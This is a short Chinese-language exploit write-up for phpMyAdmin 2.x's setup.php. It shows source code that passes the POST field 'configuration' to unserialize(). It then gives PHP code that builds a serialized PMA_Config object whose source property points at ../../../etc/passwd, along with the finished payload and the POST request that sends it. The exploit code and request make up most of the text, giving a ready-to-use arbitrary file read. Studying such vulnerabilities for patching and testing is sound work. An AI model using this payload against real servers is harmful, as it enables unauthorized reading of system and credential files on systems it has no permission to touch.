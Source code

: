 ```php
//var/www/html/scripts/setup.php  10-32
require_once('./libraries/common.lib.php');

// Grab configuration defaults
$PMA_Config = new PMA_Config();

// Script information
$script_info = 'phpMyAdmin ' . $PMA_Config->get('PMA_VERSION') . ' setup script by Michal Čihař <michal@cihar.com>';
$script_version = '$Id$';

// Grab action
if (isset($_POST['action'])) {
    $action = $_POST['action'];
} else {
    $action = '';
}

if (isset($_POST['configuration']) && $action != 'clear' ) {
    // Grab previous configuration, if it should not be cleared
    $configuration = unserialize($_POST['configuration']);
} else {
    // Start with empty configuration
    $configuration = array();
}
```

PMA_Config()这个类中有source变量，控制source，传入路径，反序列化后可读取文件

```php
//EXP
<?php
Class PMA_Config{
	public $source='../../../etc/passwd';
}
$a = new PMA_Config();
echo serialize($a);

//O:10:"PMA_Config":1:{s:6:"source";s:19:"../../../etc/passwd";}
```

POST传参

```php
POST /scripts/setup.php HTTP/1.1
.....
.....
action=test&configuration=O:10:"PMA_Config":1:{s:6:"source";s:19:"../../../etc/passwd";}
```

**受影响的phpmyadmin版本：**

- 2.x
